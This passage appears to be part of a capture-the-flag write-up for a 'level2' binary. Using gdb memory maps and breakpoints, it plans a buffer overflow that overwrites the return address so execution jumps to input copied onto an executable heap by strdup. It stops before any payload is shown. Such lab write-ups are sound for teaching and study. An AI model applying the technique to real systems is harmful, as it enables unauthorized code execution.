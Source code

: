 We need to find another area outside the `0xbxxxxxxx` range to redirect the program flow. We find that the heap is a good
candidate, as it starts at `0x0804a000` and goes up to `0x0806b000`, and it has execution rights.

```shell
(gdb) shell cat /proc/$(pgrep level2)/maps
08048000-08049000 r-xp 00000000 00:10 12470      /home/user/level2/level2
08049000-0804a000 rwxp 00000000 00:10 12470      /home/user/level2/level2
0804a000-0806b000 rwxp 00000000 00:00 0          [heap]
b7e2b000-b7e2c000 rwxp 00000000 00:00 0 
b7e2c000-b7fcf000 r-xp 00000000 07:00 17904      /lib/i386-linux-gnu/libc-2.15.so
b7fcf000-b7fd1000 r-xp 001a3000 07:00 17904      /lib/i386-linux-gnu/libc-2.15.so
b7fd1000-b7fd2000 rwxp 001a5000 07:00 17904      /lib/i386-linux-gnu/libc-2.15.so
b7fd2000-b7fd5000 rwxp 00000000 00:00 0 
b7fd9000-b7fdd000 rwxp 00000000 00:00 0 
b7fdd000-b7fde000 r-xp 00000000 00:00 0          [vdso]
b7fde000-b7ffe000 r-xp 00000000 07:00 17933      /lib/i386-linux-gnu/ld-2.15.so
b7ffe000-b7fff000 r-xp 0001f000 07:00 17933      /lib/i386-linux-gnu/ld-2.15.so
b7fff000-b8000000 rwxp 00020000 07:00 17933      /lib/i386-linux-gnu/ld-2.15.so
bffdf000-c0000000 rwxp 00000000 00:00 0          [stack]
```

Since the `p` function uses `strdup(buffer);` to copy the buffer into the heap, we will have our input stored both on the 
stack and on the heap. Therefore, we can overwrite the return address of the `p function with the address returned by 
`strdup`, where our code will be stored.

## Finding the Address Returned by `strdup`

Using `gdb`, we set a breakpoint at the end of the `strdup` function to inspect the registers and obtain the return
value of `strdup`. First, we need to find the address where we will set the breakpoint, and for that we use `ghidra`.
The result is `0x0804853e`.

```shell
(gdb) b *0x0804853e
Breakpoint 2 at 0x804853e
```

We run the program, and it will stop at the breakpoint we have set.

```shell
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level2/level2 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Breakpoint 2, 0x0804853e in p ()
```
